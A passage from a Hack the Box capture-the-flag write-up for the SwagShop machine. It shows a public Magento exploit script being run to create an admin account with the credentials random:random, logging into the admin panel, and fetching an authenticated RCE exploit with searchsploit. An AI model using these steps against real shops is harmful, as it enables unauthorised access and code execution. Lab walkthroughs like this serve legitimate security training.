 As shown in the above image, the script is failing because it’s not finding the URL. Let’s try it in our browser.

```text
http://localhost:8081/admin
```

Doesn’t work. Let’s visit other links in the website and see how the URL changes. If we click on the Hack the Box sticker we get the following link.

```text
http://10.10.10.140/index.php/5-x-hack-the-box-sticker.html
```

It seems to be appending index.php to all the URLs. Let’s add that in our script. So now our target would be:

```text
http://localhost:8081/index.php
```

Run the script again.

```text
root@kali:~/Desktop/htb/swagshop# python 37977.py 
WORKED
Check http://localhost:8081/index.php/admin with creds random:random
```

It worked! Let’s visit the link and log in with our newly added credentials.

![](../images/max/1413/1*q-OMgYCidMlGoK9L-jWPkg.png)

We’re in! From here we need to somehow get command execution. Recall that in our searchsploit results there was an authenticated RCE exploit. Transfer it to the current working directory.

```text
searchsploit -m 37811
```
